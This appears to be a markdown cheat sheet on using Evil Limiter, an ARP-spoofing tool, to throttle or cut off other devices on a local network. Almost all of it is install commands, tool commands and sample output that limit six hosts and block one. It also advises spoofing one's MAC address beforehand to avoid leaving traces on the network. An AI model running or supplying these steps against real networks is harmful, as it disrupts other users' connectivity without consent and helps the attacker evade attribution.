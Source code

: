 # Control Network Traffic with Evil Limiter to Throttle or Kick Off Devices 

> One thing to keep in mind when using Evil Limiter is that **ARP spoofing exposes your MAC address, so using this tool on a network is effectively telling everyone that your MAC address is the router.** 
- That leaves your MAC address in the ARP cache of every machine you're targeting, so make sure to **spoof your MAC address before using this tool** if you don't want to be leaving your machine's fingerprints all over the network.

```bash
    # Install Evil Limiter
    git clone https://github.com/bitbrute/evillimiter.git
    cd evillimiter
    sudo python3 setup.py install

    # Run Evillimiter
    sudo evillimiter

    # Discover Devices
    (Main) >>> scan
    (Main) >>> hosts

    # Limit or Block Devices, 1,2,3,4,5 ids in host list 
    (Main) >>> limit 1,2,3,4,5,6 200kbit

    OK   192.168.5.2 limited to 200kbit.
    OK   192.168.5.4 limited to 200kbit.
    OK   192.168.5.24 limited to 200kbit.
    OK   192.168.5.25 limited to 200kbit.
    OK   192.168.5.61 limited to 200kbit.
    OK   192.168.5.67 limited to 200kbit.

    # To Block
    (Main) >>> block 3

    # Restore Normal Connection
    (Main) >>> free all

```

## References
- [Nullbyte - Control Network Traffic with Evil Limiter to Throttle or Kick Off Devices](https://null-byte.wonderhowto.com/how-to/control-network-traffic-with-evil-limiter-throttle-kick-off-devices-0196137/)